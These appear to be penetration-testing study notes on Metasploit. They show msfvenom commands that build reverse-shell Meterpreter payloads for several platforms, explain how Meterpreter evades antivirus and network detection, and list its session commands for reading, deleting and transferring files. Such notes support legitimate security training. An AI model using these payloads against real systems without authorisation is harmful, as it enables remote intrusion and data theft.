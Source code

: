 Based on the target's configuration (i.e. OS, webserver, interpreter, etc), msfvenom can be used to create payloads in proper formats. Here are examples often used:
+ Linux Executable and Linkable Format (elf) -> **msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf**; note that executable permissions need to be set using **chmod +x [shell_elf_file]**
+ Windows -> **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe**
+ PHP -> **msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php**
+ ASP -> **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp**
+ Python -> **msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py**

Note: for the above examples, a handler will be needed as these are reverse payloads

### Meterpreter
*Meterpreter* is a Metasploit payload that runs on a target system and acts as an agent within a command and control architecture. Interaction with the target OS and files is possible using Meterpreter's commands.

Meterpreter runs on the target system in memory (i.e. RAM) and does not write itself to the disk (i.e. not installed). This feature is added to avoid detection by AVs, which scans new files on disk. Meterpreter also avoids detection by network-based IPS/IDS by using encrypted communication with the server where Metasploit runs (i.e. your attacking machine using TLS). Note: this feature only provides some degree of stealth as Meterpreter is recognised by major AVs.

Your decision on which version of Meterpreter to use will be decided by three factors:
1. The target's OS (i.e. Linux, Windows, Mac, Android)
2. Components available on the target system (e.g. Python, PHP website)
3. Network connection types you can have with the target system (e.g. TCP, HTTPS reverse connection, IPv6 or IPV4)

**help** on any Meterpreter session will list all available commands. These commands include:

Core commands
+ **background**: backgrounds the current session
+ **exit**: terminate the session
+ **guid**: get the session GUID
+ **help**: display the help menu
+ **info**: displays information about a Post module
+ **irb**: opens an interactive Ruby shell on the current session
+ **load**: loads one or more Meterpreter extensions
+ **migrate**: migrate Meterpreter to another process
+ **run**: executes a Meterpreter script or Post module
+ **sessions**: quickly switch to another session

File system commands
+ **cd**: change directory
+ **ls**: list files in the current directory; **dir** works the same way
+ **pwd**: print current working directory
+ **edit**: edit a file
+ **cat**: show contents of a file to the screen
+ **rm**: delete the specified file
+ **search**: search for files
+ **upload**: upload a file or directory
+ **download**: download a file or directory
